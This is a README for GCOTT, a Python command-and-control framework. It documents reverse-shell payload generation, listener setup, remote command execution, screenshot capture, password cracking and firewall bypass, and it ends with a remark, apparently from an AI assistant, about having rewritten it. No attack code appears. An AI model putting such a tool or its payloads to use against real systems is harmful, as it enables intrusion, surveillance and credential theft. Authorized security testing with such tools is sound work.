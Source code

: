 # GCOTT - Get Control Of The Target

[![License: MIT](https://img.shields.io/badge/License-MIT-cyan.svg)](https://opensource.org/licenses/MIT)
[![Python: 3.12+](https://img.shields.io/badge/Python-3.12+-blueviolet.svg)](https://www.python.org/downloads/)
[![Maintenance: Active](https://img.shields.io/badge/Maintenance-Active-success.svg)](https://github.com/cihaneray/GCOTT)
[![OS](https://img.shields.io/badge/OS-Linux%20%7C%20Windows%20%7C%20macOS-orange.svg)]()

## Overview

**GCOTT** (pronounced "jee-cott") is a command and control framework designed for security professionals and system administrators. It enables authorized users to establish secure connections to remote systems for command execution, file transfer, and system management.

> **IMPORTANT**: This tool is intended for authorized security assessments and legitimate system administration only. Unauthorized use is strictly prohibited and may be illegal.

## Features

- **Interactive Command Console:** Execute shell commands on target systems with real-time output
- **File Transfer:** Upload and download files between control and target systems
- **Directory Navigation:** Browse and traverse the target file system
- **System Intelligence:** Gather information about the target operating system and user context
- **Desktop Surveillance:** Capture and retrieve screenshots from the target machine
- **Interactive Shell:** Establish fully interactive shell sessions on the target
- **Custom Payload Generation:** Create Python payloads with configurable connection parameters
- **Password Decryption Module:** Attempt to crack hashed passwords using various algorithms and wordlists
- **Firewall Bypass Capabilities:** Configure firewall rules to facilitate outbound communication (experimental)
- **User-Friendly Interface:** Clear prompts and color-coded output for improved usability
- **Modular Architecture:** Well-structured codebase designed for extensibility

## Installation

1. **Clone the repository:**
   ```bash
   git clone https://github.com/cihaneray/GCOTT.git
   cd GCOTT
   ```

2. **Verify Python installation:**
   ```bash
   python3 --version
   ```
   Ensure you have Python 3.12 or higher installed.

3. **Install dependencies:**
   ```bash
   pip3 install -r requirements.txt
   ```

## Usage Guide

GCOTT operates on a client-server model with a **listener** (your control system) and a **payload** (the target system).

### Payload Generation

1. Launch GCOTT:
   ```bash
   python3 gcott.py
   ```

2. Access the payload generator:
   ```
   GCOTT -> generate
   ```

3. View available payloads:
   ```
   GCOTT@Payload -> list
   ```

4. Configure your payload:
   ```
   GCOTT@Payload -> set reverseShell.py
   GCOTT@reverseShell -> set host_ip [your_listening_ip]
   GCOTT@reverseShell -> set host_port [your_listening_port]
   ```

5. Generate the payload:
   ```
   GCOTT@reverseShell -> generate
   ```
   This creates a `payload.py` file in the GCOTT directory.

### Listener Setup

1. Launch GCOTT:
   ```bash
   python3 gcott.py
   ```

2. Start the listener:
   ```
   GCOTT -> listen
   ```

3. Configure listener settings:
   ```
   GCOTT@Listen -> show
   GCOTT@Listen -> set host_ip [your_listening_ip]
   GCOTT@Listen -> set host_port [your_listening_port]
   ```

4. Activate the listener:
   ```
   GCOTT@Listen -> execute
   ```

### Payload Deployment

1. Transfer the generated `payload.py` to the target system using an authorized method.

2. Execute the payload on the target system:
   ```bash
   python3 payload.py
   ```

### Target Interaction

Once connected, your prompt will display the target's IP address:
```
[target_ip]@GCOTT->
```

Use the `help` command to view available options:
```
[target_ip]@GCOTT-> help
```

### Password Cracking Module

1. Launch GCOTT:
   ```bash
   python3 gcott.py
   ```

2. Access the password module:
   ```
   GCOTT -> password
   ```

3. Follow the interactive prompts to input hash data and configuration options.

## Payloads Repository

The `payloads` directory contains example Python scripts that can be used as templates. Contributions of additional custom payloads are welcome.

## Contributing

We welcome contributions to GCOTT. Please submit pull requests for bug fixes, new features, or improvements to the existing codebase.

## License

This project is licensed under the MIT License.

## Acknowledgements

- The `art` library for ASCII banner generation
- The `termcolor` library for terminal output coloring
- The `pyautogui` library for screenshot capabilities

---

**Reminder**: Always use this tool responsibly and only with proper authorization.
```

This version maintains all the key information while presenting it in a more professional, concise manner. I've reduced some of the flowery language while keeping the important details about installation, usage, and legal considerations.